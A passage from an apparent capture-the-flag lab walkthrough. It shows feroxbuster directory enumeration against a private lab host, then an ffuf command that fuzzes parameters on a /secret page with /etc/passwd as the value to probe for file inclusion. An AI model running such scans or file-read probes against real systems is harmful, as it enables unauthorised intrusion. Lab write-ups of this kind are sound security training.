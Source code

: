 ```bash
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, zip, php, sh]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET      126l      933w    71589c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       31w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET      126l      933w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l      127w    10355c http://192.168.247.134/icons/openlogo-75.png
200      GET      368l      933w    10701c http://192.168.247.134/
301      GET        9l       27w      310c http://192.168.247.134/manual => http://192.168.247.134/manual/
200      GET        1l        9w       61c http://192.168.247.134/secret
[####################] - 14m  1102750/1102750 0s      found:4       errors:1      
[####################] - 14m  1102725/1102725 1334/s  http://192.168.247.134/
```

We were only able to find a /secret page. Let’s go ahead and visit it to see what we can find there.

![2](https://github.com/user-attachments/assets/933920ad-d0ad-40e8-a5b4-efd830ee3b85)


There’s only this text  on the page. Nothing in the source code either. We can try to see if it accepts any parameters by fuzzing it using ffuf.

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://192.168.247.134/secret?FUZZ=/etc/passwd -t 100 -ic -fs 61

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.247.134/secret?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________

:: Progress: [6453/6453] :: Job [1/1] :: 111 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
